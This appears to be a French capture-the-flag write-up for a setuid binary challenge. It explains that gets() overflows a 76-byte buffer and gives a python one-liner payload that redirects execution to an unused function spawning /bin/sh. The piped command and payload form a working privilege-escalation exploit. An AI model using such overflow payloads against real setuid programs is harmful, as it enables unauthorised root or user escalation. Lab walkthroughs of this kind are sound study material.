

# Level 1

```
$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
En ouvrant ce programme dans ghidra, on repère deux fonctions, une qui est le `main` et une autre `run` qui éxecute `/bin/sh` mais elle n'est jamais utilisé.<br/>
Et le `main` va simplement lire dans stdin jusqu'à trouvé un `\n` et sauvegarde dans `buffer`. Le petit problème c'est que `buffer` peut contenir seulement 76 charactères alors que `gets` peut lire bien plus que 76.

On va alors faire tous simplement un buffer overflow et pour ce faire, écrire l'address de `run` à la suite de ces 76 charactères.


```
$ python -c 'print("a" * 76 + "\x44\x84\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level1
```